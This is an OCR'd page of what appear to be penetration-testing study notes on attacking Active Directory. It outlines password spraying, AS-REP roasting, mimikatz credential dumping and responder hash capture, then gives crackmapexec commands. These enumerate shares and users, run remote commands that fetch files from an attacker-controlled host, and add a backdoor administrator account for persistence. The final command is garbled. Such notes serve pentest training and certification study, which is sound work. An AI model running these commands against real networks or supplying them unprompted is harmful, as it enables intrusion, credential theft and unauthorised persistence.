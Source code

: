 ## AD methodology 2 - **The goal of AD attacking is to move around AD till you get to DC and own domain .**
1. If you did not compromise any other Lin. Win. Machine and got any usernames via net/user or car /etc/passwd or via mimikatz, the do AS-RepRoasting and kerbrute to get usernames that have no pre authentication enabled. 
2. Start spraying username + passwords via crackmapexec (smb, sql,...) using --local-auth.
3. If you get foothold with password spraying you have multiple attacks that is good for ad :
- Enumerate users (who are high priv. users -> your targets)
- Enumerate groups
- Are you part of any high priv. groups: DNSAdmins, Backup Operator....
- Get Domain ACL (you might have genericALL on important group/user,...)
- Enumerate Service accounts ( Silver-ticket attack)
- Do you have access to any shares
- What services are in domain ?
- Most of the times if you get foothold on one PC in domain you will have to escalate priv. so you can run mimikatz, this gives you option to: Get LSASS or LSA hash ( overpass the hash, pass the hash, crack hash with hashcat),
- Also run responder: you never know, you might catch high value hash or hash of user that will enable you to move in DC domain or he might be part of some high priv. groups that will enable you to escalate to NT sys/ authority.

# Enumeration
## Tool Summary
- BloodHound: Displays visual of AD environment
- Impacket: Great for abusing Windows Network Protocols
- LinPEAS: Displays Lin Priv Esc Vectors
- WinPEAS: Displays Windows Priv Esc Vectors
- PowerView: Allows for enumeration of an AD environment
- PowerUp: Displays Windows Priv Esc Vectors based on system misconfigs
- Mimikatz: Credential Stealer
- Chisel/SSHuttle: Port Forwarding (pivoting)

## Tool 0: Powerview
- guide on how to use Powerview: https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993 
- Quick Commands: [https://github.com/yovelo98/OSCP-Cheatsheet ](https://github.com/yovelo98/OSCP-Cheatsheet?tab=readme-ov-file#using-powerview)

## Tool 1: crackmapexec
- wget https://github.com/byt3bl33d3r/CrackMapExec/releases/download/v5.0.1dev/cme-ubuntu-latest.zip
- **IF smb protocol fails, try winrm protocol**
- enumerate shares (check for READ/WRITE permissions): `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --local-auth --shares`
- enumerate logged on users (check if they are domain admin): `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --loggedon-users`
- RID enumeration: `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --rid-brute`
- local grp enumeration: `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --local-groups`
- Get the active sessions: `crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --sessions`
- Generate a list of relayable hosts (SMB Signing disabled): `crackmapexec smb 192.168.1.0/24 --gen-relay-list output.txt`
- Get the password policy: `crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --pass-pol`
- Command execution(e.g. wget,ipconfig, whoami/groups): `crackmapexec winrm 192.168.1.54 -u ippsec -p Password12345 -X 'Invoke-WebRequest -Uri "http://192.168.1.223:8000/users.txt"'`
- create new user for persistence(in case ippsec change pw): `crackmapexec winrm 192.168.1.54 -u ippsec -p Password12345 -x 'net user /add admin Password12345'`
- add user to localgroup: `crackmapexec winrm 192.168.1.54 -u ippsec -p Password12345 -x 'net local group administrators'`